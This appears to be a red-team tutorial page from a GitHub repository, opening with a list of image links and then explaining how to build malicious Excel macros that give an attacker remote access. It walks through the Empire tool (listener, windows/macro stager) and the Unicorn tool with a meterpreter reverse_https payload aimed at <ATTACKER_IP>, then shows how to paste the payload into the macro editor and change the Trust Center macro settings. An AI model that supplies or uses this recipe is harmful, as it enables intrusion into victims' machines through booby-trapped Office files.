










# Red Teaming Squad


## Macro

### What is Macro?

Whenever we work with an excel or a word file and we want a certain repetitive task that we wish just get automated without our intervention at that time we can use macro. Macros are similar to Visual Basic Scripts that can be crafted and shared and it works in the background without any knowledge of the user. We can use malicious macro to gain access of victim's machine. Attacker will create a word or excel file then attacker opens the macro editor to generate a script which can generate the session from victim'e machine to attacker's machine. 


### Generate macro payloads using Empire

You can install Empire tool from github or by executing ```git clone https://github.com/EmpireProject/Empire``` command. Navigate to ```Empire``` directory and execute ```./empire``` command. Now start a listener using ```uselistener http``` then check that your listener is active or not using ```listeners``` command.

<kbd></kbd>

Now create a stager using ```usestager windows/macro``` and link the stager with listener using ```set listener http``` command.

<kbd></kbd>

Check the stager information using 	```info``` command. Make changes in the values if needed. After that execute the stager which will generate the payload in ```/tmp``` directory.

<kbd></kbd>

You can check the payload using ```cat macro``` command.

<kbd></kbd>

Create an excel file and create a macro by following the steps which are shown in image. When you click on create button, macro editor will open.

<kbd></kbd>

You just need to replace the generated payload in macro editor and save the macro.

<kbd></kbd>

Now navigate to ```File > Options > Trust Center > Trust Center Settings```.

<kbd></kbd>

Click on ```Macro Settings``` and change the settings as shown in image and click on ```OK```. Now your payload is ready.

<kbd></kbd>


### Generate macro payloads using Unicorn

You can install unicorn tool from github or by executing ```git clone https://github.com/trustedsec/unicorn``` command. Navigate to ```unicorn``` directory and execute ```python unicorn.py windows/meterpreter/reverse_https <ATTACKER_IP> <LISTENING_PORT> macro``` command to create the macro payload.

<kbd></kbd>

You can check the payload using ```cat powershell_attack.txt``` command.

<kbd></kbd>

You can add the generated payload in macro editor to get the reverse shell.
